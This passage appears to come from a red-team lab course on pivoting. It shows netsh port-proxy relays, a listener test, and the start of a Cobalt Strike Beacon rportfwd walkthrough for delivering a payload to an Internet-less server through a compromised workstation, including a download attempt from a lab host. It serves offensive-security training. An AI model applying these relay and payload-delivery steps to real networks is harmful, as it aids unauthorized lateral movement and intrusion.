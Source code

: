 ```powershell
PS C:\> hostname
dc-1

PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

```powershell
PS C:\Users\Administrator\Desktop> hostname
ad

PS C:\Users\Administrator\Desktop> .\listener.ps1
Listening on port 4444
A client has connected
```

  

To remove the portproxy:

```
C:\>netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

  

Aspects to note about netsh port forwards:

-   You need to be a local administrator to add and remove them, regardless of the bind port.
-   They're socket-to-socket connections, so they can't be made through network devices such as firewalls and web proxies.
-   They're particularly good for creating relays between machines.

  

### rportfwd Command

Next, let's look at Beacon's `rportfwd` command.

In the lab and many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

If you don't already have a payload hosted via the Scripted Web Delivery, do so now. Then from _dc-2.dev.cyberbotic.io_, attempt to download it.

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```
